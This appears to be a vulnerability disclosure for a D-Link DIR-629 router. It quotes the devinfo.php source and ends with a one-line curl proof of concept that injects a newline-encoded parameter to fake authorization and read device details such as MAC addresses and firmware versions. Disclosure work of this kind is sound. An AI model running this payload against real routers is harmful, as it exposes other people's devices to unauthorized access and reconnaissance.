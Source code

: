 # Insecure Permissions
We can access the devinfo.php file to obtain the hardware information of the device over the user's permission. The attacker can judge the MAC address, firmware version and other information of the device through this vulnerability

code:
``` 
<?
if ($AUTHORIZED_GROUP < 0)
{
	echo "Authentication Fail. Please Login First!";
}
else
{
	echo "Firmware External Version: V".cut(fread("", "/etc/config/buildver"), "0", "\n")."\n";
	echo "Firmware Internal Version: ".cut(fread("", "/etc/config/buildno"), "0", "\n")."\n";
	echo "Model Name: ".query("/runtime/device/modelname")."\n";
	echo "Hardware Version: ".query("/runtime/devdata/hwrev")."\n";
	echo "WLAN Domain: ".query("/runtime/devdata/countrycode")."\n";
	$ver = cut(fread("", "/proc/version"), "0", "(")."\n";
	echo "Kernel: ".cut($ver, "2", " ")."\n";
	$lang = query("/runtime/device/langcode"); 
	if ($lang=="") $lang="en";
	echo "Language: ".$lang."\n";
	if (query("/device/session/captcha")=="1") $captcha="Enable"; 
	else $captcha="Disable";
	echo "Graphcal Authentication: ".$captcha."\n";
	echo "LAN MAC: ".query("/runtime/devdata/lanmac")."\n";
	echo "WAN MAC: ".query("/runtime/devdata/wanmac")."\n";
	echo "WLAN MAC: ".query("/runtime/devdata/wlanmac")."\n";	
}		
?>
```
POC:
```
curl http://[ip]:[port]/DevInfo.php -d "aaa=%0aAUTHORIZED_GROUP=1"
```
![getinfo](https://github.com/Cyc1eC/D-Link/blob/master/DIR-629/getinfo.png)
